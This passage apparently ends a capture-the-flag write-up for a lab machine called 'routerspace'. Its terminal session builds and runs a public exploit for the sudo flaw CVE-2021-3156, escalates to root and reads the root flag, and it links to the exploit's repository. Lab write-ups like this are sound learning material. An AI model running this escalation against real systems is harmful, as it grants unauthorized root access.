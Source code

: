 ```bash
sice.c                                                                                                                      100%  176     5.5KB/s   00:00    
README.md                                                                                                                   100%  234     7.6KB/s   00:00    
Makefile                                                                                                                    100%   95     3.0KB/s   00:00    
exploit.c                                                                                                                   100% 2651    82.9KB/s   00:00 

paul@routerspace:/dev/shm/sudo-exploit-main$ make
gcc exploit.c -o exploit
exploit.c: In function ‘main’:
exploit.c:75:5: warning: implicit declaration of function ‘execve’ [-Wimplicit-function-declaration]
   75 |     execve(argv[0], argv, env);
      |     ^~~~~~
mkdir libnss_X
gcc -g -fPIC -shared sice.c -o libnss_X/X.so.2

paul@routerspace:/dev/shm/sudo-exploit-main$ ./exploit 
root@routerspace:/dev/shm/sudo-exploit-main# id && cat /root/root.txt
uid=0(root) gid=1001(paul) groups=1001(paul)
3d6de1c1362a1d59bd130fd45d895e45
```


------

# References
**Install Anbox:**
https://docs.anbox.io/userguide/install_kernel_modules.html

**CVE-2021-3156:**
https://github.com/redhawkeye/sudo-exploit
